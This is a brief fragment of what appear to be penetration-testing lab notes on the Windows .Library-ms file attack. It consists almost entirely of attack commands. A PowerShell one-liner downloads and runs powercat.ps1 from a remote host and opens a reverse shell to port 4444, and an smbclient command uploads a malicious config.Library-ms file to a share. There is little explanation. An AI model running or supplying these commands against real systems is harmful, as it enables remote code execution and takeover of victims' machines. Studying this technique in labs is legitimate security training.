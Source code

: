 - have extension **.Library-ms**
- 
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.213:8000/powercat.ps1');
powercat -c 192.168.45.213 -p 4444 -e powershell"
```

```
smbclient //192.168.168.195/share -c 'put config.Library-ms'
```
